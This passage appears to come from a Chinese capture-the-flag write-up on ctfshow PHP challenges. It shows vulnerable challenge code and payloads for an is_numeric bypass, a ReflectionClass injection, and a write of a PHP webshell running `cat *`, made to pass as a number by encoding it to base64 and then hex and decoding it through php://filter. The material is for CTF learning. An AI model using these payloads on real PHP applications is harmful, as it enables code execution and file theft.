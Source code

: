 v0是利用运算符优先级绕过去，紧接着就是构造 ctfshow 的反射类

payload:`?v1=1&v2=echo new ReflectionClass&v3=;`

### 5.call_user_func() 和 hex2bin()

![](https://i.loli.net/2021/11/29/dgTCQZ1GXKS8Dln.png)

hex2bin() 转换16进制字符串为二进制字符串

例如：16进制字符串相当于 每两位-->ASCII码值-->字符

```php
$hex = hex2bin("6578616d706c65206865782064617461");
var_dump($hex); //string(16) "example hex data"
```

#### web102

```php
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}else{
    die('hacker');
} 
```

题目要求写入的内容v2是个数字，同时还会截断前两位，所以采用hex2bin()

而要找到一条php语句转成16进制字符串是不可能的，可以借由base64编码，再经过伪协议解码写入即可

`<? echo '123';`相当于`<?='123';`

根代码：

```php
$a= '<?=`cat *`;'
```

转成base64: `PD89YGNhdCAqYDs=`，去掉等号不影响base64的解码

再用bin2hex()转成16进制字符串，发现是数字字符串：`5044383959474e6864434171594473`

v2前面要补两个数字，v3要用filter协议过滤进行解码`php://filter/write=convert.base64-decode/resource=`

![](https://i.loli.net/2021/11/29/cClEV5UIOgHbXrq.png)

### 6.内置类

(1)Exception
